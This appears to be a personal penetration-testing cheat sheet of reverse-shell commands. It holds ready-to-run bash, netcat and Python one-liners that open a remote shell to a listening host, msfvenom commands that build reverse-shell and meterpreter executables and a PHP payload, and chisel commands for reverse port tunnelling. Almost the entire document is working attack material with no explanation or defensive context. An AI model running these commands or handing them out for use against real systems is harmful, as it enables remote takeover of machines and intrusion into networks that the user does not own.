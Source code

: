 ##### windows - linux - specific languages shells


##### links
- [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

 ###### reverse shells
```bash
# bash-1
bash -i >& /dev/tcp/10.8.129.32/433 0>&1
# bash-2
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.129.32 4444 >/tmp/f
# python-1
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.2.6",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```
- msfvenom generate
```bash
# stageless reverse shells windows
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.129.32 LPORT=4444 -f exe > shell-x86.exe
# stageless reverse shells linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.8.129.32 LPORT=4444 -f elf > shell-x86.elf
# staged meterpreter windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.129.32 LPORT=4444 -f exe > shell-x86.exe
# php
msfvenom -p php/reverse_php LHOST=10.10.14.7 LPORT=4444 -f raw > shell.php
```

- starting chisel
```bash
# start server on local
./chisel server --reverse -p 8000
# start client on target
./chisel client 10.10.14.7:8000 R:3306:127.0.0.1:3306
```